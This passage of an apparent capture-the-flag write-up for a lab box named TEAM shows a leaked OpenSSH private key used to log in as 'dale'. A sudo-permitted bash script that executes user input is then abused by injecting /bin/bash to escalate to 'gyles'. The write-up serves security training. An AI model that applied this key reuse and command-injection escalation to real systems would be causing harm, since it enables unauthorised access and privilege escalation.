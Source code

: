 ```console
#ftzf8oLErg4ToSiIODFh+lXiXEjCKwAAAAMBAAEAAAGAGQ9nG8u3ZbTTXZPV4tekwzoijb
#esUW5UVqzUwbReU99WUjsG7V50VRqFUolh2hV1FvnHiLL7fQer5QAvGR0+QxkGLy/AjkHO
#eXC1jA4JuR2S/Ay47kUXjHMr+C0Sc/WTY47YQghUlPLHoXKWHLq/PB2tenkWN0p0fRb85R
#N1ftjJc+sMAWkJfwH+QqeBvHLp23YqJeCORxcNj3VG/4lnjrXRiyImRhUiBvRWek4o4Rxg
#Q4MUvHDPxc2OKWaIIBbjTbErxACPU3fJSy4MfJ69dwpvePtieFsFQEoJopkEMn1Gkf1Hyi
#U2lCuU7CZtIIjKLh90AT5eMVAntnGlK4H5UO1Vz9Z27ZsOy1Rt5svnhU6X6Pldn6iPgGBW
#/vS5rOqadSFUnoBrE+Cnul2cyLWyKnV+FQHD6YnAU2SXa8dDDlp204qGAJZrOKukXGIdiz
#82aDTaCV/RkdZ2YCb53IWyRw27EniWdO6NvMXG8pZQKwUI2B7wljdgm3ZB6fYNFUv5AAAA
#wQC5Tzei2ZXPj5yN7EgrQk16vUivWP9p6S8KUxHVBvqdJDoQqr8IiPovs9EohFRA3M3h0q
#z+zdN4wIKHMdAg0yaJUUj9WqSwj9ItqNtDxkXpXkfSSgXrfaLz3yXPZTTdvpah+WP5S8u6
#RuSnARrKjgkXT6bKyfGeIVnIpHjUf5/rrnb/QqHyE+AnWGDNQY9HH36gTyMEJZGV/zeBB7
#/ocepv6U5HWlqFB+SCcuhCfkegFif8M7O39K1UUkN6PWb4/IoAAADBAMuCxRbJE9A7sxzx
#sQD/wqj5cQx+HJ82QXZBtwO9cTtxrL1g10DGDK01H+pmWDkuSTcKGOXeU8AzMoM9Jj0ODb
#mPZgp7FnSJDPbeX6an/WzWWibc5DGCmM5VTIkrWdXuuyanEw8CMHUZCMYsltfbzeexKiur
#4fu7GSqPx30NEVfArs2LEqW5Bs/bc/rbZ0UI7/ccfVvHV3qtuNv3ypX4BuQXCkMuDJoBfg
#e9VbKXg7fLF28FxaYlXn25WmXpBHPPdwAAAMEAxtKShv88h0vmaeY0xpgqMN9rjPXvDs5S
#2BRGRg22JACuTYdMFONgWo4on+ptEFPtLA3Ik0DnPqf9KGinc+j6jSYvBdHhvjZleOMMIH
#8kUREDVyzgbpzIlJ5yyawaSjayM+BpYCAuIdI9FHyWAlersYc6ZofLGjbBc3Ay1IoPuOqX
#b1wrZt/BTpIg+d+Fc5/W/k7/9abnt3OBQBf08EwDHcJhSo+4J4TFGIJdMFydxFFr7AyVY7
#CPFMeoYeUdghftAAAAE3A0aW50LXA0cnJvdEBwYXJyb3QBAgMEBQYH
#-----END OPENSSH PRIVATE KEY-----



```

Uncommented the id_rsa and tried to login as dale without password which was successful

## SSH
On logging in to SSH found that Dale can run a command as gyles 
```console
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
```
On  reading file we found that we can inject command to one of the inputs in date
```console
dale@TEAM:~$ cat /home/gyles/admin_checks
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error <--------Inject /bin/bash here
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```
Ran the script and injected the command 
```console
dale@TEAM:~$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
```